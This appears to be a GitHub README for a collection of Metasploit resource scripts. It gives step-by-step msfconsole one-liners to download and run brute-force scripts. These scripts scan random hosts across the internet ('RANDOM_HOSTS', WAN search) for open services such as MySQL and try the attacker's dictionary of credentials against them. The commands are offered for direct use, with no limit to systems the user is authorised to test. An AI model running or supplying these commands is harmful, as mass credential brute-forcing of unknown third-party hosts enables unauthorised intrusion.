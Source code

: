 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**
#### [!] Please read the article about resource scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

#### REMARKS:
**Brute force resource scripts deletes my msfconsole database data at exit (delete host list).**<br />

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by current db_nmap scans.</blockquote>

- The msfconsole database must be empty (**clean**) at resource script execution (**first-time-run**)<br />
`msfconsole -q -x 'hosts -d;services -d;exit -y'`<br /><br />

- To continue populating database with scans, just instruct the rc script to not clean db (optional)<br />
`msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/brute_force.rc'`<br /><br />

- To export database contents to database.xml local folder before executing any rc script (optional)<br />
`msfconsole -q -x 'db_export -f xml database.xml;exit -y'`<br /><br />

- All brute force resource scripts will build one logfile in **/root** directory.<br />
`/root/<resource_script_name>.log`<br /><br />

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2wfi88h.png)

<blockquote>Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />This means that users can run the resource scripts in 3 diferent ways:</blockquote>

- execute resource script **( Default scan: 192.168.1.0/24 )**<br />

      msfconsole -r /root/mysql_brute.rc

- instruct the resource script to scan rhosts input by attacker **( Scan: 10.10.10.1 10.10.11.2 )**<br />

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

- instruct the resource script to search in WAN for rhosts with service port open **( Search: WAN for hosts )**<br />

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime execution.

- instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/mysql_brute.rc'

- instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to not clean database at exit, scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

- 1º download resource script to **/root** folder<br />
`sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc`<br /><br />

- 2º start postgresql service (**local**)<br />
`sudo service postgresql start`<br /><br />

- 3º clean (**or export**) msfconsole database before runing rc script<br />
`sudo msfconsole -q -x 'hosts -d;services -d;exit -y'`<br />
**OR** export current database to database.xml (local)<br />
`sudo msfconsole -q -x 'db_export -f xml database.xml;exit -y'`<br /><br />

- 4º run brute_force.rc resource script to search hosts on WAN (limmit to 300 searchs)<br />
`sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'`<br /><br />

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by current db_nmap scans.</blockquote><br />

- 5º To populate the database with scans, just instruct the rc script to not clean db (optional)<br />
`msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/brute_force.rc'`<br /><br />

- 6º To export database contents to database.xml local folder (optional)<br />
`msf > db_export -f xml database.xml`<br /><br />

### Suspicious Shell Activity RedTeam @2019

<br />

